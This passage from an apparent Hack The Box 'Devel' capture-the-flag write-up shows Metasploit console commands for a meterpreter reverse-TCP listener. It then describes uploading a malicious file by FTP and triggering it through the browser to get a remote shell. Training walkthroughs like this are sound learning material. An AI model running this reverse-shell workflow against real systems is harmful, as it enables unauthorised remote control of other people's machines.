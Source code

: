 ### 2. Metasploit multi/handler

We set a listener that can handle a **meterpreter** session:

```bash
$ msfconsole
msf6 > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 > use exploit/multi/handler 
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set LHOST tun0
LHOST => 10.10.14.14
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.14:4444 
```

### 3. Meterpreter sesssion

Upload the malicious file we prepared via `ftp`

![ftp put meterpreter](https://pymaster-ft.github.io/assets/img/htb/machines/windows/easy/devel/ftp-put-meterpreter.png)

Open it from browser so that it can be executed on the server side and pops us a meterpreter:

![meterpreter session](https://pymaster-ft.github.io/assets/img/htb/machines/windows/easy/devel/meterpreter-session.png)

I used `run -j` to run meterpreter session in background while I'll use **suggester**.
